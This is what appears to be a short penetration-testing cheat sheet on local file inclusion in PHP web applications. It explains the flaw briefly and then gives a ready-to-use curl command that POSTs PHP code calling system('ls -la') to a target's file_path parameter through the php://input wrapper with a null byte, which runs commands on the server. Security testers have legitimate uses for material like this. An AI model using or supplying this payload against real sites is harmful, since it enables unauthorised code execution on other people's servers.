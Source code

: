 # Local File Inclusion Cheat Sheet
Testing for local file inclusion, LFI, vulnerabilities is pretty straight forward. If the web language interpreter calls for a file locally but shows it externally, often as input to itself, you should attempt to put another file into the input.
### LFI Using PHP Wrapper
This kind of attack attempt, shown below, puts the command into POST data which is interpreterd by the PHP interpreter via the GET data input `php://input` and uses a NULL byte to stop all PHP interpretation of the current page after the input.

`curl -s --data "<?system('ls -la');?>" "http://target.host/web.php?file_path=php://input%00"`
